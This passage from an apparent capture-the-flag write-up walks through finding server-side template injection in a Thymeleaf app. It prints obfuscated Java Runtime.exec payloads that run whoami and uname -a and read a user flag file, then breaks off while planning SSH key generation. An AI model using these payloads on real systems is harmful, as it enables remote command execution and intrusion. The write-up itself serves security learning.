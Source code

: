 Input does seem to be sanitized for what's returned, so no XSS or obvious sqli. Stats _might_ have something injectable but as noted above, no real luck with it...

And after some more poking at this... WE HAVE SSTI! - `*{7*7}` - some examples of different prefixes @ https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/ in `hacking thymeleaf` heading. https://github.com/VikasVarshney/ssti-payload is also an excellent tool to generate these payloads.

- Note from future me: This level of encoding was entirely unneeded, but it did work and since I could easily build the encoded string with a script I just ran with it. Obfuscation is a good skill, right? :P

Here's an example SSTI we can use to do a whoami:

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}
```

and uname -a:

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```

We can use this to get our user flag:

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Do they have an ssh key we can pull? Doesn't look like it... but we could probably generate one.

Let's try an encoded version of `ssh-keygen -b 2048 -t rsa -f /tmp/sshkely -q -N ""`:

```
```